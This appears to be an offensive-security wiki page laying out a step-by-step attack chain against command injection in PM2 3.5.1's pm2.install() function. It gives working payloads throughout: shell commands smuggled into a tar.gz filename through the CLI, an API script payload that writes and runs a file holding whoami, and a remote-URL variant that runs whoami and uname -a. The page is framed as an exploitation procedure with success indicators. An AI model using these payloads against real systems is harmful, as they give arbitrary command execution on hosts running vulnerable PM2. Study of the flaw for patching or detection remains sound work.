

---
tags:
  - command-injection
  - rce
  - pm2
  - node.js
type: attack_chain
tools:
  - '[[tools/npm]]'
  - '[[tools/pm2]]'
  - '[[tools/node]]'
  - '[[tools/tar]]'
  - '[[tools/wget]]'
tactics:
  - '[[Execution]]'
verified: false
platforms:
  - Node.js
  - macOS
  - Linux
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Install-and-Setup-PM2]]'
  - '[[procedures/Exploit-PM2-CLI-Command-Injection]]'
  - '[[procedures/Exploit-PM2-API-Command-Injection]]'
  - '[[procedures/Verify-Exploitation-Results]]'
  - '[[procedures/Exploit-PM2-Remote-URL-Command-Injection]]'
step_count: 6
techniques:
  - '[[Unix Shell]]'
updated_at: '2025-12-14T17:28:20.583Z'
description: >-
  Multi-stage attack exploiting command injection in PM2's pm2.install()
  function through unsanitized local tar.gz filenames and remote URLs, leading
  to arbitrary OS command execution.
skill_level: intermediate
impact_level: high
id: 32903bdd-d7a4-4e5a-8092-01a23d32a6d7
validated: true
mitre_tactics:
  - '[[Execution]]'
mitre_techniques:
  - '[[Unix Shell]]'
---
# PM2 Command Injection via Unsanitized tar.gz Filenames and URLs

Multi-stage attack chain demonstrating command injection in the PM2 process manager's pm2.install() function. The vulnerability arises from insufficient sanitization of user-controlled tar.gz filenames or URLs, allowing arbitrary command execution via Bash metacharacters in spawn calls to 'tar' and 'wget' with shell:true enabled. This can compromise the host if PM2 runs with elevated privileges, as shown by file creation and system command execution like 'whoami'.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 6 |
| Execution Time | ~10 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/npm]]
- [[tools/pm2]]
- [[tools/node]]

### Target Environment

- Node.js runtime (version 10.13.0 or compatible)
- macOS or Linux OS
- PM2 version 3.5.1 (vulnerable)
- No specific ports or services required beyond local access

### Initial Access Requirements

- Local shell access to install and run PM2
- No network credentials needed for local exploits; remote URL requires a local HTTP server for payload hosting

## Detailed Attack Procedures

### Step 1: Install and Setup PM2
procedure: [[procedures/Install-and-Setup-PM2]]

**Objective**: Install the vulnerable PM2 module and verify its functionality to prepare for exploitation.

**Instructions**: Use [[commands/npm-install-pm2]] to install PM2 locally, then create a symlink with [[commands/ln-symlink-pm2]]. Start PM2 using [[commands/pm2-start]] to confirm it runs without errors.

```bash
npm i pm2
ln -s ./node_modules/pm2/bin/pm2 pm2
./pm2 start
```

**Expected Output**: PM2 installation completes with node_modules/pm2 created; symlink verifiable via ls -l; PM2 starts with an empty process list and notes missing ecosystem.config.js.

**Success Indicators**:
- PM2 executable accessible via symlink
- PM2 daemon initializes successfully

### Step 2: Exploit via CLI Command Injection
procedure: [[procedures/Exploit-PM2-CLI-Command-Injection]]

**Objective**: Trigger command injection using a malicious tar.gz filename in the PM2 CLI to execute arbitrary commands.

**Instructions**: Run [[commands/pm2-install-cli-injection]] with a payload like "foo.tar.gz;echo 'HERE'" to inject via the tar extraction process.

```bash
./pm2 install "foo.tar.gz;echo 'HERE'"
```

**Expected Output**: PM2 logs show installation attempt; 'HERE' echoed to console; tar error due to missing file, but injection succeeds.

**Success Indicators**:
- Injected command output visible in logs
- No full installation, but partial execution confirmed

### Step 3: Exploit via API Command Injection
procedure: [[procedures/Exploit-PM2-API-Command-Injection]]

**Objective**: Use a JavaScript script to call PM2's API and inject commands through pm2.install(), enabling more complex payloads like file creation and execution.

**Instructions**: Create pm2_exploit.js with a payload such as 'foo.tar.gz;touch here;echo whoami>here;chmod +x here;./here>whoamreallyare', then execute with [[commands/node-pm2-exploit]].

```bash
node pm2_exploit.js
```

**Expected Output**: Script connects to PM2, starts an empty app, and triggers injection; files 'here' and 'whoamreallyare' created despite tar errors.

**Success Indicators**:
- New files appear in the directory
- Payload commands execute in PM2 context

### Step 4: Verify Exploitation Results
procedure: [[procedures/Verify-Exploitation-Results]]

**Objective**: Check for artifacts of successful command injection to confirm RCE.

**Instructions**: List files with [[commands/ll-list-files]] and view contents of the whoami output file using [[commands/cat-whoamreallyare]].

```bash
ll
cat whoamreallyare
```

**Expected Output**: Directory shows 'here' and 'whoamreallyare'; cat displays username like 'bl4de'.

**Success Indicators**:
- Files created by injected commands present
- whoami output confirms execution context

### Step 5: Exploit via Remote URL Injection
procedure: [[procedures/Exploit-PM2-Remote-URL-Command-Injection]]

**Objective**: Inject commands via a malicious remote URL in pm2.install(), exploiting the wget spawn call.

**Instructions**: Modify the exploit script payload to a URL like 'http://localhost:8000/some.tar.gz;whoami;uname -a;', host a simple HTTP server if needed, and run [[commands/node-pm2-exploit-remote]].

```bash
node pm2_exploit.js
```

**Expected Output**: Wget attempts download but executes injected 'whoami' and 'uname -a'; output printed during the process.

**Success Indicators**:
- System commands run alongside download
- Output from whoami and uname visible

## Attack Chain Summary

### Key Achievements

1. Successful installation and setup of vulnerable PM2
2. Arbitrary command execution via CLI and API injections
3. File creation and system info exfiltration confirming RCE
4. Remote URL exploitation demonstrating broader attack surface

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Unix Shell]]

### MITRE ATT&CK Tactics

- [[Execution]]

---
*Last updated: 2023-10-01T00:00:00Z*
